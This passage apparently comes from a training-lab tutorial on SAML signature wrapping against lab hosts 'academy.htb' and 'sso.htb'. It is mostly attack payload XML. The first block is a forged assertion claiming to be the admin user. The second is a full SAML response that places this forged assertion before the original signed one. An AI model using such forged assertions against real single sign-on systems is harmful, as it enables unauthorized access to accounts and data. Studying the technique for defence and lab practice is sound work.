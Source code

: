 ```xml
<saml:Assertion xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xs="http://www.w3.org/2001/XMLSchema" ID="_evilID" Version="2.0" IssueInstant="2024-03-31T09:57:18Z">
	<saml:Issuer>
		http://sso.htb/simplesaml/saml2/idp/metadata.php
	</saml:Issuer>
	<saml:Subject>
		<saml:NameID SPNameQualifier="http://academy.htb/" Format="urn:oasis:names:tc:SAML:2.0:nameid-format:transient">
			_ce163f0a42951fc08b82c0d5760d6a3d9088faec7b
		</saml:NameID>
		<saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
			<saml:SubjectConfirmationData NotOnOrAfter="2024-03-31T10:02:18Z" Recipient="http://academy.htb/acs.php" InResponseTo="ONELOGIN_8fd53e48e8ff2da4bca7a64d5153610168e04af4"/>
		</saml:SubjectConfirmation>
	</saml:Subject>
	<saml:Conditions NotBefore="2024-03-31T09:56:48Z" NotOnOrAfter="2024-03-31T10:02:18Z">
		<saml:AudienceRestriction>
			<saml:Audience>http://academy.htb/</saml:Audience>
		</saml:AudienceRestriction>
	</saml:Conditions>
	<saml:AuthnStatement AuthnInstant="2024-03-31T09:57:18Z" SessionNotOnOrAfter="2024-03-31T17:57:18Z" SessionIndex="_9063d2a0ba9a6fdcf99fa79efccc10bd00539b5949">
		<saml:AuthnContext>
			<saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</saml:AuthnContextClassRef>
		</saml:AuthnContext>
	</saml:AuthnStatement>
	<saml:AttributeStatement>
		<saml:Attribute Name="id" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
			<saml:AttributeValue xsi:type="xs:string">1</saml:AttributeValue>
		</saml:Attribute>
		<saml:Attribute Name="name" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
			<saml:AttributeValue xsi:type="xs:string">admin</saml:AttributeValue>
		</saml:Attribute>
		<saml:Attribute Name="email" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
			<saml:AttributeValue xsi:type="xs:string">admin@academy.htb</saml:AttributeValue>
		</saml:Attribute>
	</saml:AttributeStatement>
</saml:Assertion>
```
We can inject our manipulated assertion into the SAML response to achieve the above structure. This results in the following SAML response. Note that the first assertion is our injected assertion, while the second assertion is the original unchanged and signed assertion:

```xml
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol" xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion" ID="_941d62a2c2213add334c8e31ea8c11e3d177eba142" Version="2.0" IssueInstant="2024-03-31T09:57:18Z" Destination="http://academy.htb/acs.php" InResponseTo="ONELOGIN_8fd53e48e8ff2da4bca7a64d5153610168e04af4">
	<saml:Issuer>http://sso.htb/simplesaml/saml2/idp/metadata.php</saml:Issuer>
	<samlp:Status>
		<samlp:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
	</samlp:Status>
	<saml:Assertion xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xs="http://www.w3.org/2001/XMLSchema" ID="_evilID" Version="2.0" IssueInstant="2024-03-31T09:57:18Z">
		[...]
	</saml:Assertion>
	<saml:Assertion xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xs="http://www.w3.org/2001/XMLSchema" ID="_3227482244c22633671f7e3df3ee1a24a51a53c013" Version="2.0" IssueInstant="2024-03-31T09:57:18Z">
		[...]
	</saml:Assertion>
</samlp:Response>
```